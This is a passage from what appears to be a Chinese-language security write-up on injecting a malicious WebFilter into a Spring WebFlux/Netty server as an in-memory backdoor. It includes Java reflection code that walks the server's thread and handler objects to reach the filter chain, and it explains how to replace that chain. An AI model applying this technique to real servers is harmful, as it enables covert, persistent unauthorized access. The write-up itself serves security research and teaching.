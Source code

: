 上面就是创建两个 WebFilter 实现类，以及调用这两个 filter 类的流程

根据前面找到的 chain 在线程中的位置，通过反射进行获取

```plain
Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
            for (Thread thread : threads) {
                if (thread.getClass().getName().contains("NettyWebServer")) {
                    // 获取 NettyWebServer
                    NettyWebServer this$0 = (NettyWebServer) getField(thread, "this$0");
                    // 获取 ReactorHttpHandlerAdapter
                    ReactorHttpHandlerAdapter handler = (ReactorHttpHandlerAdapter) getField(this$0, "handler");
                    // 获取 WebServerManager$DelayedInitializationHttpHandler
                    Object httpHandler = getField(handler, "httpHandler");
                    // 获取 HttpWebHandlerAdapter
                    Object delegate = getField(httpHandler, "delegate");
                    // 获取 ExceptionHandlingWebHandler
                    Object delegate1 = getField(delegate, "delegate");
                    // 获取 FilteringWebHandler
                    Object delegate2 = getField(delegate1, "delegate");
                    // 获取 DefaultWebFilterChain
                    DefaultWebFilterChain chain = (DefaultWebFilterChain) getField(delegate2, "chain");
```

根据前面提到的，直接反射修改`chain#allFilters`是不能够进行 filter 链的调用的，我们在跟进了 filter chain 的创建流程，可以知道其是通过`DefaultWebFilterChain`的构造方法，进而通过`initChain`形成了链子

我们这里可以通过构造一个新的`DefaultWebFilterChain`对象，之后将新构建的对象反射写入到`FilteringWebHandler`类对象的`chain`属性中

[![](assets/1698914691-dec64c9c979a7cdbebd8dd998d894dbf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101225642-deabd2fa-78c6-1.png)
